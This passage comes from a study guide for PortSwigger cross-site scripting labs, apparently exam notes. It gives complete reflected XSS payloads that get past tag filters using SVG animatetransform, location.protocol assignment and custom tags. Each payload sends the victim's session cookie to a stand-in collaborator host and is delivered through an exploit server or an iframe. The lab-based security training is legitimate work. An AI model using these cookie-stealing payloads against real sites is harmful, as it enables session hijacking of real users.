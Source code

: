 > Application controls give message, _**"Tag is not allowed"**_ when inserting basic XSS payloads, but discover SVG mark-up allowed using above [methodology](broken-reference). This payload steal my own session cookie as POC.

```html
https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2Fcollaboration.net%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E
```

> Place the above payload on exploit server and insert URL with search value into an `iframe` before delivering to victim in below code block.

```html
<iframe src="https://TARGET.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin%3Ddocument.location%3D%27https%3A%2F%2FCOLLABORATOR.com%2F%3Fcookies%3D%27%2Bdocument.cookie%3B%3E">
</iframe>
```

[PortSwigger Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

#### XSS Assign protocol

> Lab to test XSS into HTML context with nothing encoded in search function. Using this lab to test the **Assignable protocol with location** `javascript` exploit _**identified**_ by [PortSwigger XSS research](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#assignable-protocol-with-location). In the payload is the `%0a` representing the ASCII newline character.

```html
<script>location.protocol='javascript';</script>#%0adocument.location='http://COLLABORATOR.NET/?p='+document.cookie//&context=html
```

[PortSwigger Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

#### Custom Tags not Blocked

> Application respond with message _**"Tag is not allowed"**_ when attempting to insert XSS payloads, but if we create a custom tag it is bypassed.

```html
<xss+id=x>#x';
```

_**Identify**_ if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://Collaborator.COM/?c='+document.cookie tabindex=1>#x';
</script>
```

> **Note:** The custom tag with the ID `x`, which contains an **onfocus** event handler that triggers the `document.location` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in `script` tags, and send to victim. Below is the same payload but **URL-encoded** format.
